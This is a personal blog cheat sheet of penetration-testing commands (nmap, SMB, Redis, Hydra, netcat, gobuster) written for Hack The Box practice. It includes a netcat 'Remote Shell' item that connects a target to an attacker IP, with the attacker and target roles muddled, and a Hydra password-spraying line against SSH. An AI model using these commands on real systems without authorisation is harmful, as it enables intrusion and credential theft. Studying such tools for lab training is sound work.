 ```yaml
---
title: "Useful Notes"
date: 2024-08-25T13:38:26Z
draft: false
author: "James"
tags: 
  - "Security"
  - "Penetration-Testing"
  - "Linux"
summary: "A page dedicated to quick and easy commands used."
---
```


## Introduction

I have decided to start progressing on Hack The Box while I have some free time to sharpen my skills and knowledge. 

## Useful commands 

#### Nmap

```nmap -F IPADDRESS``` - Fast scan the top 100 ports
```nmap -sV IPADDRESS``` - Service version detection
```nmap -O IPADDRESS``` - Operating system detection 
```nmap -sT IPADDRESS```- TCP Scan
```nmap -p- IPADDRESS```- Scan all ports

#### SSH

SSH Tunnelling to establish a connection with the remote ssh server and will listen for connections on the local port 1234 and forward to remote server on port 22. We can then access the services on the remote machine as if they were running locally. 
```ssh -L 1234:localhost:22 user@{target_IP}```

#### SMB

```smbclient -L``` is used to list file shares.

```smbclient -L \\IPADDRESS -U anonymous```
  Use tag "-W" to specify the workgroup.

Use ```get``` & ```put``` retrospecifively to download/upload files.

#### Redis
```redis-cli -u redis://host:port``` - To connect
```redis-cli -h``` - To get hostname

Once connected, run the ```info``` command to get the information about the system. 

Run the ```select``` command to enter the database.

#### Samba

```smbmap -H 10.10.10.3``` - Find shares

#### FTP

The below result from an Nmap scan shows the server allows anonymous logins:

```ftp-anon: Anonymous FTP login allowed (FTP code 230)```

#### Passwords

We can use Hydra to iterate through usernames and use the same password for each user via SSH:

```hydra -L users.txt -p 'PASSWORD' {target_IP} ssh```

#### Network Sockets

The command `ss -tlnp` is used to display detailed information about network sockets on a Linux system. Here's a breakdown of what each option means:

- **`ss`**: This is the command used to display network socket information (similar to `netstat`, but faster and more powerful).
  
- **`-t`**: Show **TCP** sockets only.
  
- **`-l`**: Show only **listening** sockets (i.e., sockets that are waiting for incoming connections, such as servers).

- **`-n`**: Show numerical addresses and ports instead of resolving hostnames or service names. For example, it shows `127.0.0.1` instead of `localhost`, and `80` instead of `http`.

- **`-p`**: Show the **process** using the socket, along with the PID (Process ID) and the name of the program.


#### Netcat

Netcat (or nc) is a versatile networking tool that is often referred to as the "Swiss Army knife" of networking. It is used for a variety of tasks involving network connections
```bash
1. Basic Syntax
nc [options] [hostname] [port]

2. Start a TCP Server
nc -l -p 1234

3. Connect to a TCP Server
nc [hostname] 1234

4. File Transfer
On the server (receiving):
nc -l -p 1234 > received_file
On the client (sending):
nc [server_ip] 1234 < file_to_send

5. Port Scanning
nc -zv [hostname] [port_range]
Example:
nc -zv localhost 20-80

6. Simple Chat
Listener:
nc -l -p 1234
Connector:
nc [hostname] 1234

7. UDP Mode
Send UDP packets:
nc -u [hostname] 1234
Listen for UDP packets:
nc -u -l -p 1234

8. Remote Shell
Listener (attacker's machine):
nc -l -p 4444 -e /bin/bash
Client (target's machine):
nc [attacker_ip] 4444

9. Check if a Port is Open
nc -zv [hostname] [port]
Example:
nc -zv example.com 80

10. Set a Timeout
nc -w 3 [hostname] 1234


#### Gobuster - Directory/File Brute-Force (HTTP/HTTPS)

```bash
gobuster dir -u http://example.com -w /path/to/wordlist.txt
```

- `dir`: Directory/file brute-forcing mode
- `-u`: Target URL
- `-w`: Path to the wordlist

#### DNS Subdomain Brute-Force

```bash
gobuster dns -d example.com -w /path/to/wordlist.txt
```

- `dns`: DNS subdomain brute-forcing mode
- `-d`: Domain to target

#### Virtual Host Brute-Force

```bash
gobuster vhost -u http://example.com -w /path/to/wordlist.txt
```

- `vhost`: Virtual host brute-forcing mode
- `-u`: Target URL

### Additional Flags

- `-t`: Number of concurrent threads (default: 10)
- `-o`: Output results to a file
- `-x`: File extensions to check (e.g., `.php`, `.html`)
- `-s`: HTTP response status codes to consider valid (e.g., `200,301`)

### Example Command with Output

```bash
gobuster dir -u http://example.com -w /usr/share/wordlists/dirb/common.txt -t 50 -o results.txt
```

This will brute-force directories using 50 threads and save the results to `results.txt`.
